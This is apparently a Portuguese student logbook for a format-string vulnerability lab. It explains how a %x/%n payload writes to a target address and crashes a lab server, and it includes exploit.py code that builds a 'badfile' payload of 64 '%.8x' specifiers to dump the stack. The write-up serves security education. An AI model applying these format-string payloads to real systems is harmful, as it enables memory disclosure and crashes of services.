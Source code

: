 ### Explicação da String Formatada

No código acima, utilizamos uma string formatada específica para explorar a vulnerabilidade de string formatada no programa format.c. A string formatada contém os seguintes elementos:

- Endereço de destino: O endereço de memória 0x080e5068 onde queremos escrever.
- Especificador %x: Utilizado para imprimir valores da pilha em formato hexadecimal.
- Especificador %n: Utilizado para escrever o número de caracteres impressos até aquele ponto no endereço fornecido.
- A string formatada é construída de forma a incluir um preenchimento (padding) calculado para alcançar o valor desejado (desired_value). Este preenchimento é necessário para garantir que o número correto de caracteres seja escrito antes de utilizar o especificador %n.

Ao enviar esta string formatada maliciosa ao servidor, conseguimos explorar a vulnerabilidade e fazer com que o programa "crashe".

## Task 2 - Imprimindo Dados da Memoria do servidor

### Task 2.A: Imprimindo Dados da Pilha

O objetivo é imprimir os dados na pilha. Quantos especificadores de formato `%x` são necessários para que o programa do servidor imprima os primeiros quatro bytes da sua entrada? 


#### Código Utilizado no `exploit.py` para Task 2

```python
# Valor único para identificar na pilha
unique_number = 0xbfffeeee 
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

# Usar 64 especificadores %x para examinar a pilha
format_string = "%.8x " * 64 
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Salvar o payload num ficheiro
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  ![Chamada do exploit.py](../img/logbook6-img3.png)
   - Saída esperada no contentor:
  ![Resultado do exploit.py](../img/logbook6-img5.png)
